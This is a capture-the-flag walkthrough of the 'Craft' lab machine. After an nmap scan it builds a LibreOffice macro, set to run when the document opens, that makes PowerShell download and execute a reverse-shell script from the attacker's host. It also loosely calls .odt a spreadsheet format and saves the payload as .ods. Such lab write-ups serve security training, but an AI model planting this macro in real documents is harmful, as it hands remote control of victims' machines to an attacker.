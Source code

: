 ### Craft Proving Grounds Practice

### Difficulty = Intermediate

### IP Address = 192.168.175.169

Nmap Scan

```
└─$ nmap -sCV -A 192.168.175.169 -p80 -oN nmapscan                     
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-23 23:35 WAT
Nmap scan report for 192.168.175.169
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Craft
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.55 seconds
```

From the scan we can tell that only one tcp port is open

I'll head over to see what it is
![image](https://user-images.githubusercontent.com/113513376/221046662-3d73f892-cb01-4e17-8966-59ce005fb08c.png)

It doesn't contain anything much looking below shows a file upload form
![image](https://user-images.githubusercontent.com/113513376/221056128-935d2864-241a-448a-9b18-1a4122b93bff.png)

Uploading any file shows that it only accepts a .odt file 
![image](https://user-images.githubusercontent.com/113513376/221056229-d2f6ed55-35af-41c1-8eb0-7cbf5839908a.png)

After trying to upload a fake .odt file shows that it will be viewed soon
![image](https://user-images.githubusercontent.com/113513376/221056321-609ab0eb-cb2d-4baf-a87c-34899df2962e.png)

So with this we know that we can upload a .odt file which is just like an excel spreadsheet

But lets say if we manage to even upload a .php file we won't be able to execute it cause its been viewed by a person (bot)

Now we can perform a macros attack

Which basically puts in a malicious content in the file then after it is being viewed the macros content will be executed

### Payload Creation 

Here's what i'll do 
![image](https://0xdf.gitlab.io/img/image-20191126164802663.png)

```
I’ll open Calc, and go to Tools –> Macros –> Organize Macros –> LibreOffice Basic:
```

In the dialog box that pops up, I’ll select the document I’m working in on the left side (Untitled 1) and click “New”. I’ll give the module a name (“evil”), and click Ok to be taken to the macro editor:
![image](https://user-images.githubusercontent.com/113513376/221057141-7fc7502d-b1de-44bf-8b28-656672c72fda.png)

OpenOffice macros use Basic, a similar but [slightly different](https://wiki.openoffice.org/wiki/Documentation/FAQ/Macros/Can_I_use_my_Microsoft_Office_macros%3F) language to the VBA that’s in MS macros. To run a command on a Windows host from LibreOffice Basic, I’ll need to put it into Shell() as a string. So I wrap my command in "". To nest quotes, I’ll use two double quotes (""). I’ll call Shell to execute some simple download and execute code:

```
REM  *****  BASIC  *****

Sub Main

    Shell("cmd /c powershell ""IEX(New-Object Net.Webclient).downloadString('http://192.168.45.5/Invoke-PowerShellTcp.ps1')""")
    
End Sub
```

#### AutoOpen

Now I need to make sure this macro is run when the document is opened. I'll close the macro editors, and back in the document, go to Tools –> Customize -> Events tab:
![image](https://user-images.githubusercontent.com/113513376/221057696-e6d15dd4-c16c-4427-9b8c-79b4bc4a60fb.png)

I'll select "Open Document" and click on the "Macro…" button. I'll navigte to select my macro:
![image](https://user-images.githubusercontent.com/113513376/221059441-f630cdc9-d34e-47af-8b55-4d03bc709e02.png)

When I hit "OK", I see it now in the list:
![image](https://user-images.githubusercontent.com/113513376/221059503-f810f247-f894-461d-9aa4-bde2e5a4805b.png)

I'll save my sheet as shell.ods, and exit LibreOffice.

Reference to this [0xdf](https://0xdf.gitlab.io/2020/02/01/htb-re.html)

Cool with this payload i'll set up a listener and a http server on port 80 hosting a powershell reverse shell





